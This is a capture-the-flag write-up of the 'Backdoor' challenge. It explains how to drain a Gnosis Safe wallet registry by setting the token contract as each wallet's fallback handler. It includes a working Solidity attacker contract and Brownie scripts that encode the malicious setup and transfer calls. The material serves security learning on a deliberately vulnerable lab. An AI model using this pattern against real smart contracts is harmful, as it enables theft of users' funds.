 ## Backdoor

### Challenge description

> To incentivize the creation of more secure wallets in their team, someone has deployed a registry of Gnosis Safe wallets. When someone in the team deploys and registers a wallet, they will earn 10 DVT tokens.
>
> To make sure everything is safe and sound, the registry tightly integrates with the legitimate Gnosis Safe Proxy Factory, and has some additional safety checks.
>
> Currently there are four people registered as beneficiaries: Alice, Bob, Charlie and David. The registry has 40 DVT tokens in balance to be distributed among them.
>
> Your goal is to take all funds from the registry. In a single transaction. 

### Solution

The Backdoor challenge tasks us with deploying a Gnosis Safe proxy for 4 users through a Gnosis Safe Proxy Factory. After each deployment, 10 DVT tokens will be distributed to each one of those users (the beneficiaries)

For the registry to accept each proxy creation as correct and to steal the tokens, we must code an attacker contract that makes the calls and pass a few conditions:

1. The WalletRegistry contract must have enough DVT tokens to make the payment to the beneficiary

```solidity
require(token.balanceOf(address(this)) >= TOKEN_PAYMENT, "Not enough funds to pay");
```

This does not directly depend on us, so we can continue.

1. The caller contract must be the GnosisSafeProxyFactory contract

```solidity
require(msg.sender == walletFactory, "Caller must be factory");
```

To achieve this, all we have to do is use the correct call when creating the proxy through the proxy factory contract. The call that invokes this function in the WalletRegistry (of course, specifying that this is the wallet registry that will receive the callback) is the function `createProxyWithCallback()`. This function takes the following parameters:

```solidity
function createProxyWithCallback(
    address _singleton,
    bytes memory initializer,
    uint256 saltNonce,
    IProxyCreationCallback callback
)
```

+ The `_singleton` address is the Gnosis Safe implementation contract address, which the WalletRegistry contract refers to as the `masterCopy`.
+ The `initializer` data, which is the data we will generate to call `setup()` (detailed on condition 3)
+ The `saltNonce` which we can just set as 0
+ The `callback`, which is the address to the WalletRegistry contract, but since it can only be passed as an IProxyCreationCallback interface, we must pass it as such `IProxyCreationCallback(registry)` by importing the interface at the top of the attacker contract

3. The right singleton contract must be used

```solidity
require(singleton == masterCopy, "Fake mastercopy used");
```

This is covered by using the address of `masterCopy` (the Gnosis Safe implementation contract) correctly when calling `createProxyWithCallback()`


4. We must be calling `setup()`

```solidity
require(bytes4(initializer[:4]) == GnosisSafe.setup.selector, "Wrong initialization");
```

`setup()` is the initializer function for a Gnosis Safe multisignature wallet. This function is in the Gnosis Safe implementation contract (GnosisSafe.sol) and it takes the following parameters:

```solidity
function setup(
    address[] calldata _owners,
    uint256 _threshold,
    address to,
    bytes calldata data,
    address fallbackHandler,
    address paymentToken,
    uint256 payment,
    address payable paymentReceiver
)
```

+ `_owners` must be an array with the addresses that will control this contract. Here we must input an array with a single element per multisig we initialize, one per user.
+ `_threshold` is the number of required confirmations per transaction signed by the safe. E.g. if `_threshold` is 4 and the size of `_owners` is 7, then at least 4 out of the 7 owner addresses must sign for a transaction to go through. In this case, this value must be 1.
+ `to` is a contract address to which an optional delegate call will be made, this can be set as the null address.
+ `data` payload for that optional delegate call. This can be 0.
+ **`fallbackHandler`** is the parameter which we will use to be able to exploit the wallets despite not being an owner of the wallet. This parameter is an address which will handle fallback calls to the contract, if we make a call that contains a function selector that does not match any function in the safe, then this selector and the calldata will be forwarded to a fallback contract which corresponds to the address of `fallbackHandler`. **Here we can input the DVT token contract address**.
+ `paymentToken` is the address of a token that can be optionally used to pay gas fees for transactions, we won't use gas tokens so this can be the null address as we want to use ETH to pay for txs.
+ `payment` is the value that should be payed in case a gas token is used. We'll use ETH, so this should be 0.
+ `paymentReceiver` is the address that will receive the payment. This should be the null address so that it's set to `tx.origin`.

5. The `_threshold` parameter in the `setup()` call needs to be 1.

```solidity
require(GnosisSafe(walletAddress).getThreshold() == MAX_THRESHOLD, "Invalid threshold");
```

As specified in 4.

6. The `_owners` array must be of length 1, so each multisig wallet must have at most 1 owner.

```solidity
require(GnosisSafe(walletAddress).getOwners().length == MAX_OWNERS, "Invalid number of owners");
```

As specified in 4.

7. The owner set per multisig must be in the list of beneficiaries.

```solidity
require(beneficiaries[walletOwner], "Owner is not registered as beneficiary");
```

After all requirements pass, the DVT tokens will be transferred to the created Gnosis Safe multisig. Each multisig will receive 10 DVT tokens.

To steall all the tokens in one transaction, we must create a function in the attacker contract that will perform the following workflow:

1. Create the multisig for user `user`.
    + The creation will assign the `fallbackHandler` as the DVT token contract address
    + The creation will assign the `callback` proxy creation callback interface to the WalletFactory contract

2. Make a call to the newly created Gnosis Safe multisig for user `user` with function selector + calldata performing a token transfer. The function selector specified must be that of the `transfer()` function of the DVT token contract. The calldata should be the receiver of those tokens (the attacker address) and the amount should be the entire balance that the WalletRegistry will send to the newly created multisig (10 DVT tokens). This call will effectively transfer the 10 DVT tokens in that Safe to the attacker's address.

I decided to pass the calldata for the `setup()` and `transfer()` functions as a parameter to the function so that the contract is more readable:

```solidity
function deploySafesAndStealTokens(bytes[] calldata maliciousSetupCalls, bytes calldata maliciousTransferCall) external {
    // loop over the malicious calls, creating a new proxy per loop
    // which will allow us to then call transfer after the token contract
    // is set up as a fallback contract for the wallet
    for (uint256 i = 0; i < maliciousSetupCalls.length; i++) {
        GnosisSafeProxy newGnosisSafeWallet = gspf.createProxyWithCallback(
            singleton,
            maliciousSetupCalls[i],
            0,
            IProxyCreationCallback(registry)
        );
        
        // transfer tokens to tx.origin, the attacker
        (bool success,) = address(newGnosisSafeWallet).call(maliciousTransferCall);

        // make sure the transfer is made
        require(success, "tokens stealing failed");
    }
}
```

To generate the data for this calls I just used the `encode_input` method in Brownie:

+ `setup()` call

```py
# malicious calls list
malicious_setup_calls = []

# loop over addresses
for user in users: 

    # setup call encoding from master copy
    malicious_setup_calls.append(
        master_copy.setup.encode_input(
            [user],
            1,
            ZERO_ADDRESS,
            0,
            token.address,
            ZERO_ADDRESS,
            0,
            ZERO_ADDRESS
        )
    )
```

+ `transfer()` call

```py
token_stealing_call = token.transfer.encode_input(
    attacker.address, 
    AMOUNT_TOKENS_DISTRIBUTED // len(users)
)
```

And then just call the attacker contract function to do it all in one transaction:

```py
attacker_contract.deploySafesAndStealTokens(
    malicious_setup_calls, 
    token_stealing_call, 
    _fromAttacker
)
```
